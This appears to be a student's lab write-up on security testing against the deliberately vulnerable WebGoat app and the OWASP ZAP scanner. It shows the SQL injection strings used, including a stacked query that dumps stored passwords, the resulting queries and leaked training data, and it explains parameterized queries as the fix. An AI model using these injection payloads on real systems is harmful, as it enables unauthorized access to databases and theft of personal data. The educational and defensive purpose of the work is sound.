 # Security Testing

## Part I: WebGoat

Download the latest WebGoat release [here](https://github.com/WebGoat/WebGoat/releases/)

Start the WebGoat server on `8080`:
```bash
> java -jar webgoat-server-8.0.0.M21.jar
```

### SQL Injection Challenge

This challenge was completed by entering `Smith' or '1' = '1`. This causes the entire database to be shown since `or '1' = '1'` will always cause the query to math on all entries in the complete query:
```SQL
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
```
As seen `Hershey Jolly's` card number is `333300003333`
```
USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT,
...
10312, Jolly, Hershey, 333300003333, AMEX, , 0,
...
```

### SQL Injection (Advanced) Challenge

This challenge was completed by entering the following string:

```
smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '
```

This caused the complete query below to be executed, resulting in all of the password data to be leaked:

```SQL
SELECT * FROM user_data WHERE last_name = 'smith' or '1' = '1'; SELECT * FROM user_system_data WHERE password = 'dave' or '1' = '1'
```

As seen `dave's` password is `passW0rD`:

```
USERID, USER_NAME, PASSWORD, COOKIE,
...
105, dave, passW0rD, ,
...
```

### How it works?

This SQL injections works since the developer of the website did not protect the backend database with parameterized queries. This failure allows for special charaters to be recognized as complete SQL queries. 

With out the proper input validation on forms, SQL injections will always present an issue. Additionally, it must always be assumed that user input is invalid and security risks should be prevented against.

## Part II: Zed Attack Proxy (ZAP)

1. [Getting started with ZAP](https://github.com/zaproxy/zaproxy/releases/download/2.6.0/ZAPGettingStartedGuide-2.6.pdf)
1. Download and install [OWASP ZAP](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
1. By default, both WebGoat and ZAP use port 8080. Change ZAP to use a different port `Tools > Options > Local Proxy`
1. Now that ZAP has been setup as a proxy, you should use your browser to passively interact with WebGoat.
1. Next use ZAP to attack the instance of WebGoat running on your machine.   See the section "Run an Active Scan with ZAP" on pg. 9 of the Getting Started Guide.

### High Risk Alerts

`ZAP` identified the site being at risk for SQL Injections as seen by the example on the `agree` parameter. However this attack is possible on almost every input field of the site. 

### ZAP Screendump

> ![](./zap.png)

## Reflection

This assignment was very interesting since I have never really experimented with SQL injections before. Although, I am aware that most (if not all) modern framworks have some measure of protection against things like this to prevent catastrophic loss of sensative information. Additionally, `ZAP` seems like a very useful tool that I plan on using again in the future on other projects. 
